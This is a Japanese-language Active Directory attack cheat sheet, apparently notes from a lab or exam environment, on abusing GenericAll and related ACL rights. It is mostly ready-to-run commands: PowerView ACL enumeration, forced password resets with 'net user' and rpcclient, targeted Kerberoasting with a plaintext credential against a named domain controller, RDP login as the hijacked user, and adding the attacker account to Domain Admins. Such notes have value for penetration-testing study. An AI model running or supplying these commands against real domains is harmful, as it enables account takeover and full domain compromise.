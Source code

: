 AllowedToDelegate msds-AllowedToDelegateToというサービスに対してドメイン ユーザーに代わって操作することを許可されている
```

### GenericAllが付与されている場合

#### ユーザーがGenericAllの権限を持っているかチェックする
  
powerviewを使って、攻撃しているユーザーspotlessが、ユーザーdelegate君のADオブジェクトに対してGenericAllの権限を持っているかどうかをチェックする  

```
以下を実行して、ActiveDirectoryRights属性がGenericAllかどうかを確認する
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

#### GenericAll権限を使用してパスワードを変更する

```
spotlessユーザー(自身)からdelegateユーザーのパスワードをdelegateに変更する
net user delegate delegate /domain
```

#### GenericAll権限のあるアカウントから同じグループに所属しているアカウントのパスワードを強制変更する

```
hrapp-service(pwn済)がtier2adminであるHazel.Greenユーザーに対してgenericWrite権限を持っていて、
tier2adminグループからForceChangePasswordで同じグループに所属するMOLLY.SMITHに対して強制パスワード変更を行う

まず、ユーザーを指名して、kerberoastを行えるtargetedKerberoast.pyを実行してkrb5tgsを取得する
targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny' --dc-ip 192.168.208.40

パスワードをhashcatでクラックしたらrpcclient経由でMOLLY.SMITHのパスワードを強制変更する
rpcclient -N  192.168.208.40 -U 'hazel.green%haze1988'
$> setuserinfo2 MOLLY.SMITH 23 'Password123!'

そうすればRDP接続を行える
xfreerdp /u:molly.smith /p:'Password123!' /v:192.168.208.40 +clipboard
```

#### グループでGenericAllできるか確認する

まずは、distinguishedName属性の値を確認する必要がある
```
以下でdistinguishedName属性の値を確認する
Get-NetGroup "domain admins" -FullData
例: distinguishName: CN~Domain Admins,CN=Users,DC=offense,DC=local

この情報からグループにGenericAllがあるかどうかを確認する
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

#### GenericAllを使用して、自分自身をグループに追加する

```
これで自分自身（spotlessユーザー）をDomain Adminグループに追加できる：
net group "domain admins" spotless /add /domain
